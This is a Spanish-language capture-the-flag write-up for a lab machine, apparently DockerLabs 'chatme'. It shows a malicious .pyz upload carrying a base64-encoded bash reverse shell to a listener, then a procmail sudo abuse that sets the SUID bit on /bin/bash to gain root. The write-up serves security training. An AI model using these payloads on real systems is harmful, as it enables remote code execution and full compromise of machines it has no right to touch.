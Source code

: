 nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión

![image](https://github.com/user-attachments/assets/6a6eb0ab-ff4a-4779-8a46-521a44c1e07a)

al hacer un sudo -l aparece: /usr/bin/procmail

![image](https://github.com/user-attachments/assets/db26a903-36f3-4593-a894-88fd0d403f01)


en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![image](https://github.com/user-attachments/assets/bbb826f0-fd6a-4090-bc9c-8e9d19ac7c36)


ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![image](https://github.com/user-attachments/assets/b1ed3ffa-2170-4e85-b29d-bfceddf9e825)


ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![image](https://github.com/user-attachments/assets/6785be7e-9982-4348-b33d-ba883b79815c)


volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!
